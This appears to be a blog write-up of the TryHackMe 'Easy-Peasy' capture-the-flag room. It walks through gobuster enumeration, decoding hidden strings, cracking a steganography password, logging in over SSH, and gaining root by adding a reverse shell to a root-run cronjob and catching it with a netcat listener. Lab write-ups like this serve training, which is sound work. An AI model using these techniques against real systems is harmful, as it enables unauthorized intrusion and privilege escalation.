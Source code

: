 ```yaml
---
title: Writeup - THM - Easy-Peasy
layout: post
summary: Walkthrough of Easy-Peasy of TryHackme.
author: fr3akazo1d
keywords: TryHackeMe, EasyPeasy, Hacking, pwned, nmap, gobuster, steganography, cronjob
category: walkthroughs
permalink: "/blog/easypeasy/"
usemathjax: true
published: true
---
```



# Walkthrough

Used gobuster 
- gobuster dir -u http://10.10.201.81 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster-output.txt

found hidden directory

after researching the site, nothing interesting was found on the website. 

But for the answer of TryHackMe, something has to be on the site. 
So i keep digging around on the webserver. 

I tried another gobuster run on the hidden directory. 

Found another directory. 
Was another picture and then i checked the source code. In the Source code there was a hidden paragraph:  
```html
</head>
<body>
<center>
<p hidden>Z**********************=</p>
</center>
</body>
</html>
```


No i have my first flag, the code was Base64. 
we can decode the base64 string in the terminal:
```sh
┌──(fr3akazo1d㉿fr3ak0ut)-[~/PenetrationTesting/THM/Boxes/EasyPeasy]
└─$ echo "************************" | base64 -d 
flag{f********g}
```

After a lot of seraching on Port 80 on the Server, i was swtiching to the other Webserver witch is running on port 65524. 


On this webserver i also run a gobuster run, and found robots.txt file. 
looked inside the robots.txt file and found a hash. 

```html
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```


The hash was crackable with only one website. after decypting the hash we got our second flag. 

On The apache website there is the third flag locatet, we have to look closely. :)

For the hidden directory. i was going through the source code of the apache server. i found an interessting part with a string who looks like a hash:
<p hidden>its encoded with ba....:O**********************u</p>

i was triying to decrypt the hash with base64, but it was no base64 hash. I tried different ways till i found the right base decoder. 
The string gave me the name of the hidden directory. 

http://10.10.249.230:65524/n***************r/

on this page we found another hash. Whitch we have to decrpt. 
Also a picture was provided on this site. 

Downloaded the picture and started brute force attack on the picture with the txt file which we have donwloaded from tryhackem. 

a other way is to crack the password with hashcat, as a hint from tryhackme. the has is GOST.

The txt file was containg the password, and extracted a new text file where a username and password was stored. 
```sh
┌──(fr3akazo1d㉿fr3ak0ut)-[~/PenetrationTesting/THM/Boxes/EasyPeasy]
└─$ s********** binarycodepixabay.jpg easypeasy.txt                                                               1 ⨯
S********** 2.0.9 - (https://github.com/Paradoxis/s**********)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'binarycodepixabay.jpg' with wordlist 'easypeasy.txt'..
Successfully cracked file with password: m******************b
Tried 3585 passwords
Your file has been written to: binarycodepixabay.jpg.out
m******************b
```

```sh
bat binarycodepixabay.jpg.out 
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: binarycodepixabay.jpg.out
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ username:b****g
   2   │ password:
   3   │ 01101001 ******** ******** ******** ******** ******** ******** ******** ******** ******** ******** ******** *
       │ ******* ******** ******** ******** ******** ******** ******** ******** ******** ******** ******** ******** **
       │ ****** ******** ******** 01111001
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

The password was decoded in binary. after decoding we have now the password for the user to the target. 

```sh
i**************************y
```

We can now login with the user and read the user.txt file. 

```sh
┌──(fr3akazo1d㉿fr3ak0ut)-[~/PenetrationTesting/THM/Boxes/EasyPeasy]
└─$  ssh 10.10.249.230 -p 6498 -l b****g -p i**************************y
*************************************************************************
**        This connection are monitored by government offical          **
**            Please disconnect if you are not authorized        **
** A lawsuit will be filed against you if the law is not followed      **
*************************************************************************
b****g@10.10.249.230's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
b****g@kral4-PC:~$ ls
user.txt
b****g@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
s**t{a**************y}
```

After some researching i came a cross the cronjob. 


```sh
b****g@kral4-PC:/$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *  * * * root    cd / && run-parts --report /etc/cron.hourly
25 6  * * * root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6  * * 7 root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6  1 * * root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```

on cronjob is running as root. I added a reverse shell to the file and a listener on my machine. 


```sh
b****g@kral4-PC:/$ nano var/www/.mysecretcronjob.sh 
```


# root shell

After some seconds i got a root shell. now we can read the root.txt file


```sh
┌──(fr3akazo1d㉿fr3ak0ut)-[~/PenetrationTesting/THM/Boxes/EasyPeasy]
└─$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.9.170.39] from (UNKNOWN) [10.10.249.230] 53294
bash: cannot set terminal process group (1509): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# cat root.txt  
cat root.txt 
flag{6******************************5}
root@kral4-PC:~# 
```

summary

This box was a lot enumeration with gobuster. Sometimes i was stucked at this. I tried some different ways but i was really fustrated that i read another writeup for the room. 

